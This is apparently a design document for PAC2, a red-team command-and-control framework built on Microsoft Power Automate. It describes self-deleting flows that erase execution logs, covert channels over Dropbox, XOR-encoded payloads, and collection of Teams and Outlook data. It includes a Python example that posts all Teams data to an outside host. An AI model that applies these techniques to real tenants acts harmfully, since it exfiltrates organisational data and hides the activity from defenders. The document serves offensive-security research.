





# Design and Concept

This document explains the overall design approach and key components of PAC2. It aims to help developers and users understand the design philosophy, structure, and functional elements of PAC2.

## 1. Architecture Overview

PAC2 is an application designed to execute any Flow from outside on the Power Automate platform. The system is composed as shown in the diagram to realize these functionalities.



## 2. C2 Communication

In PAC2, to establish communication with Power Automate, executing a Client Flow on Power Automate is necessary. The Client Flow maintains a C2 session with PAC2 and executes any Flow. The Client Flow operates as shown in the sequence diagram. It retrieves the definition of the next Flow to execute from the PAC2 server and creates a new Flow. After creating the Flow, it deletes itself. This process allows users to maintain a communication session with PAC2 while deleting logs from the Power Automate portal.



Each Client Flow is assigned a random UUID4 format Client ID, which is used to manage sessions for each Client Flow. When multiple Client Flows are executed for one Power Automate user, the Client ID is used to identify communications. If different Client Flows are executed on the same Power Automate user, the data collected by each Client Flow is shared through the database.

### 2.1 Methods

PAC2 supports the following two communication methods:

- HTTP(S) (requires Power Automate Premium License)
- Communication using the file synchronization feature of external storage services

#### 2.1.1 communication using External Storage Services

PAC2 uses the storage's synchronization feature for communication using external storage services for data transmission. The following setup is required for communication:

- On the PAC2 server side:
    - Mount the external storage service
    - Start a process to monitor changes in a specific path of the mounted location
- On the Power Automate client side:
    - Access the external storage service using connectors

After setup, communication is carried out as follows:

##### Download by Client

The download process is as follows:

1. The Client retrieves a file placed on external storage.
2. The Client deletes the retrieved file.
3. PAC2's monitoring process detects the file deletion and places the next file.

##### Upload by Client

The upload process is as follows:

1. The Client places a file on external storage.
2. PAC2's monitoring process detects the file creation and retrieves the file contents.
3. PAC2's monitoring process deletes the file.

## 3. Interfaces

This section explains the interfaces of PAC2:

- Power Automate Interface: An interface for PAC2 to communicate with the Power Automate platform.
- Management Interface: An interface to manage and control PAC2.

### 3.1 Power Automate Interface Details

The Power Automate Interface is used to communicate with Flows executed on Power Automate. PAC2 uses this interface to receive data collected by Power Automate Flows and send the definition of the next Flow to execute. The interface supports the following two communication methods:

- HTTP(S) communication
- Communication using the file synchronization feature of external storage services
    - Only Dropbox is supported

#### 3.1.1 Features Provided by the Power Automate Interface

The Power Automate Interface provides the following features:

- An interface to download the definition of the next Flow to execute.
- An interface to upload connection information.
- An interface to upload information collected on Power Automate.
    - Such as Teams, Outlook, etc.

### 3.2 Management Interface

The Management Interface is used to control PAC2. This interface allows access to the following functionalities on PAC2:

- User registration/authentication for PAC2.
- Generation of initial Client Flow for communication (requires authentication).
- Management features for PAC2 Clients (requires authentication).
- Access to information collected by PAC2 Clients (requires authentication).
- Task management features (requires authentication).

## 4. Components

The PAC2 web application consists of the following components:

- Flow Handler: A component to dynamically generate Flows for execution on Power Automate.
- Task Handler: A component to manage tasks registered by PAC2 users.
- Database Handler: A component for controlling C2 sessions of PAC2, managing users, and managing data collected from Power Automate.
- Storage Service Handler: A component to control external storage services.
- Power Automate Library: A library to generate Flows for execution on Power Automate using Python.

## 5. Flow Handler

The Flow Handler is a component that dynamically generates Flows for use by PAC2. The Flow Handler generates both Client Flow and Task Flow.

### 5.1 Client Flow

Client Flow is used for C2 communication of PAC2. It includes the following functionalities:

- Transmitting a list of connection information associated with the user executing the Flow.
- Retrieving the definition of the next Flow (JSON) from PAC2.
- Creating a new Flow based on the retrieved Flow definition.
- Deleting itself.

Client Flow follows the procedure below to create a new Flow while maintaining a session with PAC2 and deletes itself. This process allows for the deletion of Flows from the Power Automate portal's Flow list and simultaneously erases traces of Flow execution logs.



### 5.2 Task Flow

Task Flow refers to a Flow that converts any action created in the Task management screen by PAC2 users. Task Flows are consolidated into one action using Power Automate's standard Scope Action and are set by the Flow Handler to be executed in parallel with actions defined in Client Flow. Additionally, the action in Client Flow that defines its deletion is configured to wait until all tasks are completed (similar to async/await behavior).



## 6. Task Handler

The Task Handler manages tasks registered through PAC2's Management Interface. The tasks managed by the Task Handler include Template Tasks and Raw Tasks. The Task Handler has the following functionalities:

- Registration of tasks based on user requests.
- Task status management:
    - Submitted
    - Processing (only for Template Tasks)
    - Finished (Template)
    - Processed (only for Raw Tasks)
    - Timeout
- Deletion of tasks based on user requests.

### 6.1 Template Task

Template Tasks are registered based on templates prepared in PAC2. Tasks can be registered using buttons displayed on the Payload Table in the Management Interface. These Template Tasks have predefined action flows in Python classes in PAC2 and require minimal configuration information input from the web UI of the Management Interface for task registration. They also feature functionality to auto-complete input settings from data collected by the Flow Client. Template Tasks can receive callbacks from Client Flow, allowing for detailed status management.

### 6.2 Raw Task

Raw Tasks are registered using JSON-formatted data that directly defines the Flow. Registration using JSON format requires the prior generation of flow definition data executable on Power Automate, allowing for the definition of arbitrary actions. The generation of JSON data is based on the assumption that it will use data outputted from the `Actions` object of the Power Automate Library. Below is an example of generating JSON for Raw Tasks using Python:

```python
import json
from pypowerautomate.actions import *

task = Actions()
task += GetAllTeamsAction("GetAllTeams")

http_action = HttpAction("PostData","https://example.com/","POST")
http_action.set_body(f"@body('GetAllTeams')")

task += http_action

s = json.dumps(task.export(),indent=2)
print(s)
```

Executing the above Python script outputs the following JSON code:

```json
{
  "GetAllTeams": {
    "metadata": {
      "operationMetadataId": "db8efd4b-6360-4e3a-be23-970eb51a158d"
    },
    "type": "OpenApiConnection",
    "runAfter": {},
    "inputs": {
      "host": {
        "apiId": "/providers/Microsoft.PowerApps/apis/shared_teams",
        "connectionName": "shared_teams",
        "operationId": "GetAllTeams"
      },
      "parameters": {}
    }
  },
  "PostData": {
    "metadata": {
      "operationMetadataId": "fbd5d997-1191-4454-8801-cedb1235ab3e"
    },
    "type": "Http",
    "runAfter": {
      "GetAllTeams": [
        "Succeeded"
      ]
    },
    "inputs": {
      "method": "POST",
      "uri": "https://example.com/",
      "body": "@body('GetAllTeams')"
    }
  }
}
```

This JSON is synonymous with the task shown in the image.



## 7. Database Handler

The Database Handler manages C2 session control, user management, and data collected from Power Automate for PAC2. SQL-based databases can be used, and the database interface is abstracted using SQLAlchemy.

## 8. Storage Service Handler

The Storage Service Handler handles file input/output for C2 communication using 3rd-party storage services. It launches the following worker processes and performs asynchronous file monitoring and necessary operations for communication:

- Setup Client Worker: Initializes a folder for communication processing in the mounted path of the storage service when a new Client Flow is created in PAC2.
- Post Data Client: Monitors the mounted path of the storage service and processes upload operations by Client Flow.
- Put Payload Client: Monitors the mounted path of the storage service and processes download operations by Client Flow.

## 9. Other Functions

### 9.1 XOR Encoding

When XOR Encoding is enabled, the JSON data defining the Flow to be downloaded by Client Flow from PAC2 is pre-encoded using a predetermined random XOR key. The XOR encoding process is performed on the PAC2 side, and the decoding process for XOR encoding is inserted into the Client Flow generated by PAC2.

## 10. PyPowerAutomate Library

Please refer to the README.md in the [PyPowerAutomate](https://github.com/NTT-Security-Japan/PyPowerAutomate) Library repository.